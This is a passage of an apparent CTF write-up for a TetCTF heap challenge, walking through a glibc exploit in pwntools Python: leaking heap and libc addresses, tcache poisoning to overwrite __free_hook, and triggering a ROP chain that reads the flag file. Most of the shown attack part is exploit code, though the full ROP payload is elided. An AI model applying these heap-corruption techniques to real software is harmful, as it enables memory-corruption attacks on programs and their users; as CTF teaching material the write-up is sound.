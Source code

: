 With the above setup, I have two small `victim` chunks to poison later, and a large chunk that will go into `unsorted bin` when freed to leak `libc`.

## Leak heap and libc
Simply read a heap pointer that is stored somewhere on the heap to leak `heap`, and free the large chunk to leak `libc`:
```python
# Leak heap
read(collide2, 0x40, 8)
heap = u64(r.recv(8)) - 0x144d0
log.info("heap: {}".format(hex(heap)))

# Erase large cache, leak libc
erase("leak")
read(collide2, 0x380, 8)
l.address = u64(r.recv(8)) - 0x1ebbe0
log.info("libc: {}".format(hex(l.address)))
```

## Tcache poisoning
Freeing the two `victim` chunks and we can easily overwrite their `fd` pointer, classic `tcache poisoning`. With that, I now could overwrite `__free_hook` and also had all the leaked addresses in my hands. I could just use my ROP chain that I explained [here](https://blog.efiens.com/post/heap-seccomp-rop/) to read the flag. Note that the `payload` must be put into a cache's `name`, not `content`, because the `name` is what actually got `free()` first when we call `erase`.
```python
# Erase victims, overwrite victim2's fd to __free_hook
erase("victim1")
erase("victim2")
write(collide2, 0x200, 8, p64(l.symbols["__free_hook"]))

# Build ROP payload
base = heap + 0x124b0             # payload_base (address of the chunk)
payload = b"A"*8                  # <-- [rdi] <-- payload_base
... # read the full payload in my other post or my full script
payload += b"/home/cache/flag"

# Create a cache with payload as its name
create(payload, 0x100)
write(payload, 0, 8, "A"*8)

# Overwrite __free_hook with call_gadget
create("free", 0x100)
write("free", 0, 8, p64(call_gadget))

# Execute the chain
erase(payload)
```

The flag is:
```
TetCTF{https://www.youtube.com/watch?v=NvOHijJqups}
```

